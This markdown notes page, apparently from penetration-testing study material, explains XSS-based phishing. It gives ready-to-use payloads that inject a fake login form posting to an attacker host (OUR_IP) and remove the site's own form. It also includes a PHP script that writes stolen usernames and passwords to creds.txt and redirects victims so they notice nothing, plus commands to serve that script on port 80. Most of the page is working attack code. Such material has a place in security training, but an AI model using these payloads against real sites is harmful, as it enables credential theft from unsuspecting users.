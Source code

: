 ```yaml
---
title: b-Phishing
draft: false
tags:
  - Phishing
---
```

Common XSS attackisto send fake login forms that send the login details to the attacker's server.

## Login Form Injection

```html
<h3>Please login to continue</h3> <form action=http://OUR_IP> <input type="username" name="username" placeholder="Username"> <input type="password" name="password" placeholder="Password"> <input type="submit" name="submit" value="Login"> </form>
```

Minified payload with `document.write()`.

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Let's say there is a url form that website originally provides as such:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

We might want to remove such url form if it doesn't match with our phishing page. 

Let's get rid of it using `remove()` function:

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

## Credential Stealing

We can use `netcat` for this:

`sudo nc -lvnp 80`

But this won't handle the HTTP request correctly and the victim would get `Unable to connect` error.

We can use a PHP script to log credentials and return the victim with the original page. This case, victim may not notice anything unusual. 

The following code should work:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Let's save the code above as `index.php` and place it inside `/tmp/tmpserver`.

Now that we have `index.php` ready, let's start PHP listening server:

```shell-session
[!bash!]$ mkdir /tmp/tmpserver
[!bash!]$ cd /tmp/tmpserver
[!bash!]$ vi index.php #at this step we wrote our index.php file
[!bash!]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

